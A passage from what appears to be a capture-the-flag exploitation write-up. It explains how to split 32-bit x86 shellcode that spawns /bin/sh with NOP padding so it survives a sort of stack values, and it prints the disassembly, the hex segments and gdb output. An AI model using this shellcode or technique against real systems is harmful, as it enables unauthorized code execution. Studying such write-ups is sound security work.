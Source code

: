 The last thing we need to worry about is our shellcode, since we will need to know where it is on the stack to execute it, and we also need to make sure it stays intact and in the correct order after it is sorted. The way I accomplish this is by appending the `0x90` byte a certain amount of time to the front of certain parts of shellcode. This is because when executed `0x90` is the opcode for `NOP` which continues execution and doesn't affect our shellcode in any important way, and it will be evaluated as less than values starting with `0x804` so it won't affect the stack canary or what we did to write over the return address.

However when we insert the NOPs into our shellcode, we will have to rewrite/recompile the shellcode. The reason for this, is because if we just insert NOPs into random places, there is a good chance we will insert a NOP in the middle of an instruction, which will change what the instruction does. Also note, the base shellcode I did not write. I grabbed it from `http://shell-storm.org/shellcode/files/shellcode-599.php` and modified it. Also I found that this website which is an online x86/x64 decompiler/compiler helped `https://defuse.ca/online-x86-assembler.htm`:

here is the shellcode before we modified it:
```
0:  6a 17                   push   0x17
2:  58                      pop    eax
3:  31 db                   xor    ebx,ebx
5:  cd 80                   int    0x80
7:  50                      push   eax
8:  68 2f 2f 73 68          push   0x68732f2f
d:  68 2f 62 69 6e          push   0x6e69622f
12: 89 e3                   mov    ebx,esp
14: 99                      cdq
15: 31 c9                   xor    ecx,ecx
17: b0 0b                   mov    al,0xb
19: cd 80                   int    0x80
```

This shellcode is `27` bytes. After we figure out how to split the individual commands up with `\x90`s in a way that the instructions will still execute properly, and after sorting the shellcode will be in the proper order, we get the following segments:

```
0x9101eb51e1f7c931:

0x90909068732f2f68:

0x9090406e69622f68:

0x900080cd0bb0e389:
```

keep in mind, because of how the data is stored, the last four bytes will be executed first. After a lot of trial and error, we see that this is our shellcode:

```
gdb-peda$ x/16i 0xffff7ca0
   0xffff7ca0:    xor    ecx,ecx
   0xffff7ca2:    mul    ecx
   0xffff7ca4:    push   ecx
   0xffff7ca5:    jmp    0xffff7ca8
   0xffff7ca7:    xchg   ecx,eax
   0xffff7ca8:    push   0x68732f2f
   0xffff7cad:    nop
   0xffff7cae:    nop
   0xffff7caf:    nop
   0xffff7cb0:    push   0x6e69622f
   0xffff7cb5:    inc    eax
   0xffff7cb6:    nop
   0xffff7cb7:    nop
   0xffff7cb8:    mov    ebx,esp
   0xffff7cba:    mov    al,0xb
   0xffff7cbc:    int    0x80
```
